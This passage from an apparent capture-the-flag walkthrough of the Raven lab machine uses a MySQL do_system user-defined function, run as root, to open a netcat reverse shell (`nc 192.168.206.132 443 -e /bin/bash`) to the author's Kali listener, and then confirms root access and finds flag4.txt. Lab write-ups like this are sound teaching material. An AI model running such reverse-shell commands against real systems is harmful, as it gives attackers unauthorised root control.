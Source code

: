 By default the file will be readable only by root, so I chain the `chmod` command at the end of `id` to make the file world-readable.

We can login to another SSH session as `michael` and read the contens of `/tmp/out`:

```
michael@Raven:~$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root)
```

Excellent, the `id` command reported that it’s running as the root user. So what can we do? Pretty much anything at this point since we have root command execution. However let’s complete the challenge by getting a shell. I’m going to obtain a reverse shell as the root user by using the `nc` command. `nc` or netcat is a sort of swiss army network tool. One feature that some versions of netcat have is to connect back to a server and shovel a shell to the listening server. In this case I’ll use it to connect back to my machine with a root shell.

First, I need to setup my machine to listen to a specific port for netcat to connect to. In this case, I’ll use port 443. So on my Kali instance:

```
root@kali:~# nc -lvp 443
listening on [any] 443 ...
```

Next, back on the target’s MySQL instance, I use netcat and specify the IP address of my machine, the port to connect to, and the `-e` flag to specify what command to execute:

```
mysql> select do_system('nc 192.168.206.132 443 -e /bin/bash');
```

Upon executing this MySQL should just “freeze”. That’s because it’s now established a connection to my Kali instance and we can see that from our netcat listener:

```
root@kali:~# nc -lvp 443
listening on [any] 443 ...
connect to [192.168.206.132] from raven.local [192.168.206.131] 46850
```

The netcat listener has reported that the target has connected to it. Although there is no shell prompt, we can actually start typing commands:

```
root@kali:~# nc -lvp 443
listening on [any] 443 ...
connect to [192.168.206.132] from raven.local [192.168.206.131] 46850
id
uid=0(root) gid=0(root) groups=0(root)
```

We can see that we’re now the root user. To verify we’re actually root on the target, we can pull up it’s IP address and the contents of the `/root` directory:

```
ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:fe:2e:e8
          inet addr:192.168.206.131  Bcast:192.168.206.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fefe:2ee8/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:149756 errors:0 dropped:0 overruns:0 frame:0
          TX packets:153237 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:11526665 (10.9 MiB)  TX bytes:29539647 (28.1 MiB)

ls -l /root/
total 4
-rw-r--r-- 1 root root 442 Aug 13 12:22 flag4.txt
```
